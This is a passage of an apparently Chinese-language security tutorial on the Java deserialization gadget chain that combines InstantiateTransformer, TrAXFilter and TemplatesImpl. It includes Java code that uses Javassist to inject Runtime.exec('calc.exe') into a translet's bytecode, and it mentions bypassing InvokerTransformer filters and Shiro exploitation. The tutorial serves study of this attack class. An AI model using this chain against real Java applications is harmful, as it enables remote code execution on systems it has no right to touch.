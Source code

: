![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-45aede283ca5f57ecb60bfb73ab1997fafdb3be6.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-ca7ad12742e0a1976df138aee54e341f127f0d49.png)

这里通常会和 TrAXFilter 的构造方法 配合使用

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-9022b5b055936c805870e890d6995212ad7dbe15.png)

我们首先会调用我们的 input 的 getConstructor 方法，getConstructor 和 `getMethod` 类似， `getConstructor` 接收的参数还是有构造函数列表类型，因为 **构造函数也支持重载**，所以必须用参数列表类型 `parameterTypes` 才能唯一确定一个 **构造函数** `public Constructor<T> getConstructor(Class<?>... parameterTypes)`

在上面的利用中，我们传入了 `parameterTypes` 为 Templates.class，进而确定了我们需要的构造函数，而下面的 `Constructor.newInstance()` 可以根据传入的参数，调用任意构造构造函数。

TemplatesImpl
-------------

TemplatesImpl 动态加载字节码更详细的解析直接去看之前的文章吧，这里我们能够利用的切入点就是下面两个方法，因为只有这两个方法是 public 属性的。

```java
TemplatesImpl#getOutputProperties()
TemplatesImpl#newTransformer()
```

代码的具体内容实际上不用过多关注，大体一看就好了， TemplatesImpl 这一串只要从这两个节点其中之一进入就可以了。

关于恶意 TemplatesImpl 的创建，我在有 Javassist 的情况下将他简化为了这样的一段代码：

```java
    public static class StubTransletPayload extends AbstractTranslet {
        public void transform (DOM document, SerializationHandler[] handlers ) throws TransletException {}
        public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler ) throws TransletException {}
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
```

但是实际上真正使 TemplatesImpl 有了自己的生命力的还是结合 InstantiateTransformer 与 TrAXFilter 初始化的调用方法，这里可以帮助我们对 InvokerTransformer 进行绕过，也可以实现 Shiro 场景下的一些需要。

```java
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath((new ClassClassPath(StubTransletPayload.class)));
        CtClass clazz = pool.get(StubTransletPayload.class.getName());
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        clazz.makeClassInitializer().insertAfter(cmd);
        clazz.setName("sp4c1ous");

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][] { clazz.toBytecode() });
        setFieldValue(templates, "_name", "HelloTemplatesTmpl");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
```

